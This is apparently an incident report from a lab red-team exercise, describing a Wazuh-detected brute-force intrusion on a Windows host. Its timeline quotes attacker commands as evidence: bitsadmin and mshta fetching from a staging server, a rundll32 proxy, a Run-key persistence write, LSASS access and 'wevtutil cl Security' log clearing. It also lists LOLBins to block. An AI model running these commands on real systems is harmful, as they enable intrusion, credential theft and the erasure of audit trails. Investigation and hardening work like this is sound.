

# Sub-task 1.6 — Incident A Full Investigation Report (`SOC-2026-INC-A01`)

| Report Metadata | Details |
| :--- | :--- |
| **Incident ID** | `SOC-2026-INC-A01` |
| **Severity** | **P1 — Critical** (Wazuh Max Rule Level: `14`) |
| **Detection Timestamp (UTC)** | `2026-10-19T18:43:30.754Z` (First alert) — `2026-10-19T18:54:54.754Z` (Final lateral movement alert) |
| **Affected Endpoint** | `Win10` (`192.168.99.30`, Wazuh Agent `002`, Windows 11 Enterprise Build 26100) |
| **Compromised Account** | `WIN10\soc` (`S-1-5-21-2093812193-1135278953-2291312261-1000`) |
| **Involved Threat Infrastructure** | `192.168.99.40` (`ubuntu-01` HTTP staging server) & `192.168.99.1` (RDP origin) |
| **Lead Investigator** | **Mohammad Bustami** (Blue-Team Lead) &bull; **Saif Asender** (Red-Team Simulation) &bull; **Mohammad Alodeh** (Peer Review & Tuning) |

---

## 1. Executive Summary

On **19 October 2026** between **18:43 UTC** and **18:54 UTC**, the Wazuh SIEM (`SOC-Wazuh`, `192.168.99.10`) detected a multi-stage intrusion on Windows workstation **`Win10` (`192.168.99.30`)**. An attacker performed a rapid password brute-force attack against the local administrator account **`WIN10\soc`** (**Rule `100007`**), achieved a successful logon within 4 seconds (**Correlation Rule `100200`**), and established an interactive Remote Desktop session (**Rule `100204`**).

Following initial access, the attacker executed an encoded PowerShell discovery cradle (**Rule `100005`**), downloaded staged content from `http://192.168.99.40/index.html` using native Windows LOLBins `bitsadmin.exe` and `mshta.exe` (**Rule `100013`**), proxied execution through `rundll32.exe url.dll,FileProtocolHandler` (**Rule `100205`**), created a Registry `Run` key for persistence (**Rule `100206`**), opened a process handle to **`lsass.exe`** (**Rule `100201`, Level 14**), and cleared the Windows `Security` event log (`wevtutil cl Security`, **Rule `100207`, Level 12**) to cover their tracks. Because `wazuh-agent` streams EventChannel telemetry in under `0.6 seconds`, 100% of the pre-wipe evidence was preserved in Wazuh before `Event 1102` occurred.

---

## 2. Visual Attack Chain (MITRE ATT&CK v19)

---

## 3. Chronological Attack Timeline (All Timestamps UTC)

| Timestamp (UTC) | Wazuh Rule ID & Level | MITRE v19 | Source / Channel | Key Forensic Evidence |
| :--- | :--- | :--- | :--- | :--- |
| `18:43:30.754Z` | `100005` (Lvl 10) | `T1059.001` (Execution) | Sysmon EID 1 | `"C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -enc dwBoAG8AYQBtAGkA` (decoded: `whoami`) |
| `18:43:33.350Z` | `100205` (Lvl 9) | `T1218.011` (Stealth) | Sysmon EID 1 | `"C:\WINDOWS\system32\rundll32.exe" url.dll,FileProtocolHandler calc.exe` |
| `18:43:34.422Z` | `100206` (Lvl 9) | `T1547.001` (Persistence) | Sysmon EID 13 | `SetValue` on `HKU\...\CurrentVersion\Run\T` = `calc.exe` by `C:\WINDOWS\system32\reg.exe` |
| `18:43:36.411Z`–`18:43:36.474Z` | `100007` (Lvl 10) | `T1110` (Credential Access) | Security EID 4625 | 5 failed logons (`Status: 0xc000006d`, `SubStatus: 0xc000006a`) for `targetUserName: soc` within 120s |
| `18:43:40.196Z` | `100200` (Lvl 13) | `T1110` + `T1078` (Correlation) | Security EID 4624 | Successful logon (`Event 4624`) for `soc` 3.7 seconds after Rule `100007` brute-force alert |
| `18:49:42.921Z` | `100013` (Lvl 10) | `T1105` (C2) | Sysmon EID 1 | `bitsadmin.exe /transfer myJob http://192.168.99.40/index.html C:\Temp\out2.txt` & `mshta.exe http://192.168.99.40/index.html` |
| `18:52:15.234Z` | `100201` (Lvl 14) | `T1003.001` (Credential Access) | Sysmon EID 10 | `powershell.exe` accessed `C:\WINDOWS\system32\lsass.exe` (`PID 872`, `grantedAccess: 0x1000`) |
| `18:52:16.445Z` | `100207` (Lvl 12) | `T1685.005` (Defense Impairment) | Security EID 1102 | `Windows Event Log (Security) cleared (Event 1102) on Win10` by `WIN10\soc` |
| `18:54:54.754Z` | `100204` (Lvl 8) | `T1021.001` (Lateral Movement) | Security EID 4624 | `LogonType: 10` (RemoteInteractive RDP) into `Win10` by `soc` from `192.168.99.1` |

---

## 4. Root Cause, Blast Radius & Impact Assessment

- **Root Cause**: Password-based authentication exposure on local administrator account `WIN10\soc` without account lockout threshold enforcement, allowing rapid password guessing (`T1110`) followed by interactive RDP/SSH command execution.
- **Blast Radius**:
  - **Endpoint `Win10` (`192.168.99.30`)**: High integrity (`Administrator`) code execution, registry Run-key persistence, and attempted LSASS credential harvesting. (Note: Windows 11 24H2 `RunAsPPL` limited non-driver `OpenProcess` access on `lsass.exe` to `0x1000` rather than `0x1fffff` full memory read.)
  - **Endpoint `ubuntu-01` (`192.168.99.40`)**: Served as the internal HTTP staging server (`http://192.168.99.40/index.html`) and exhibited separate persistence activity (`Rules 100202` and `100203`, tracked in Ticket `#3`).

---

## 5. Containment, Eradication, Recovery & Lessons Learned

1. **Containment**: Isolated `Win10` from `192.168.99.40` and external RDP via Windows Firewall rules while preserving TCP `1514` to `SOC-Wazuh` (`192.168.99.10`).
2. **Eradication**: Deleted `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\T`, removed `C:\Temp\*.txt` staging files, and killed residual `mshta.exe` / `mstsc.exe` processes.
3. **Recovery & Hardening Recommendations**:
   - Enforce Windows Account Lockout Policy (`net accounts /lockoutthreshold:5 /lockoutduration:15 /lockoutwindow:15`) to block `T1110` after 5 failures.
   - Block outbound HTTP connections from client workstations (`192.168.99.30`) to peer server segments (`192.168.99.40`) for LOLBin binaries (`certutil.exe`, `bitsadmin.exe`, `mshta.exe`, `regsvr32.exe`) via Windows Defender Application Control (WDAC) / Attack Surface Reduction (ASR) rules.
   - Restrict RDP (`TCP 3389`) via host firewall to authorized jump-host IPs only and require Network Level Authentication (NLA) + MFA.
